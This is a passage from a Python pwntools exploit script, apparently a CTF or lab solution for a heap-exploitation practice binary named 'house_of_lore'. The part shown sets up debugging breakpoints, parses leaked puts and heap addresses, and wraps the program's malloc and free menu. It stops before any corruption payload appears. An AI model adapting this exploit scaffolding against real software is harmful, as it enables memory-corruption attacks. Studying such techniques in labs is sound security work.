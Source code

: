 largebinbknextsize.py

```python=
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./house_of_lore', checksec=False)

#libc = ELF('../.glibc/glibc_2.25/libc.so.6', checksec=False)
libc = elf.libc 

gs = """
b *main

b *main+290

b *main+390
b *main+521

b *main+748
b *main+849

b *main+945
b *main+1064
"""

index = 0

def info(mess):
    return log.info(mess)

def success(mess):
    return log.success(mess)

def error(mess):
    log.error(mess)

def handle():
    io.recvuntil(b'puts() @ ')
    puts = int(io.recvline(), 16)
    io.recvuntil(b'heap @ ')
    heap = int(io.recvline(), 16)
    success("puts leak")
    info('puts @ ' + hex(puts))
    success("heap leak")
    info('heap @ ' + hex(heap))
    return puts, heap

def send_name(name):
    io.sendafter(b'Enter your username: ', name)
    io.recvuntil(b'> ')

def malloc(size):
    global index
    io.send(b'1')
    io.sendafter(b'size: ', str(size).encode())
    io.recvuntil(b'> ')
    index += 1
    return index - 1
    

def free(index):
    io.send(b'2')
```